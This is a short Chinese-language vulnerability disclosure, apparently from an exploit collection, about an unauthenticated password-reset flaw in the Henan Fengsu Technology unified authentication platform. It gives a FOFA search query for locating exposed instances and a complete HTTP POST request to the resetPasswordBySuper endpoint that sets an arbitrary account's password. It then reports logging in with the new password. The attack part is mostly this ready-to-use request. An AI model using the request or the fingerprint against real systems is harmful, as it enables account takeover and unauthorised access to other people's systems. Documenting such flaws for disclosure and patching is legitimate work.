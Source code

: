 # 一、漏洞简介
河南省风速科技统一认证平台，存在未授权漏洞，攻击者可通过该接口重置任意密码。

# 二、影响版本
+ 河南省风速科技统一认证平台

# 三、资产测绘
+ fofa`body="/cas/themes/zbvc/js/jquery.min.js"`
+ 特征

![](images/1710687590034-ead35f10-90e3-4280-9ddd-ebf87d0b0113.png)

# 四、漏洞复现
```plain
POST /cas/userCtl/resetPasswordBySuper HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 45
Connection: close

{"xgh":"test","newPass":"test666","email":""}
```

![](images/1710687580497-ed113647-fbf0-4c2d-bf6c-d8775be3da5b.png)

使用重置后的密码成功登录系统

![](images/1710687648011-2f737afe-da03-4e69-859c-1af8d9f156d2.png)

